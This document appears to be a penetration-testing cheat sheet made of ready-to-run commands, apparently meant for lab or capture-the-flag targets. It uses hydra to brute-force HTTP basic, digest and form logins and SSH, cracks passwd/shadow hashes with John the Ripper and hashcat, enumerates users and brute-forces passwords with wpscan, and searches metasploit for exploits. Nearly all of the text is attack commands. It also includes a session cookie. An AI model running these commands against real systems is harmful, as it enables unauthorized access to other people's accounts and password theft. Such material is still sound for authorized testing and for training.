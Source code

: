 hydra http basic auth brute
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-head /admin/
```

hydra brute http digest
```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt example.com http-get /admin/
```

hydra brute http post form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed"
```

hydra brute http authenticated post form
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt example.com https-post-form "/login.php:username=^USER^&password=^PASS^&login=Login:Not allowed:H=Cookie\: PHPSESSID=if0kg4ss785kmov8bqlbusva3v"
```

hydra brute
```bash
hydra -f -v -V -L users.txt -P rockyou-15.txt -s 2223 -f ssh://10.10.10.17
hydra -v -V -l admin -P rockyou-10.txt ssh://10.10.10.18
```

combine passwd with shadow file for john the ripper:
```bash
unshadow passwd shadow > crack.hash
```

john the ripper bruteforce:
```bash
john -wordlist /usr/share/wordlists/rockyou.txt crack.hash
john -wordlist /usr/share/wordlists/rockyou.txt -users users.txt test.hash
```

hashcat:
```bash
hashcat -m 1000 -a 0 -o found.txt --remove crack.hash rockyou-10.txt
```

### wpscan
```bash
wpscan --url http://10.10.10.14 --enumerate u
wpscan --url example.com -e vp --plugins-detection mixed --api-token API_TOKEN
wpscan --url example.com -e u --passwords /usr/share/wordlists/rockyou.txt
```

### mysql
```bash
mysql -h 10.10.10.23 -P 13306 -u root -p
```

### msfconsole
search exploit
```bash
msf> search cve:2011 port:135 platform:windows target:XP
```
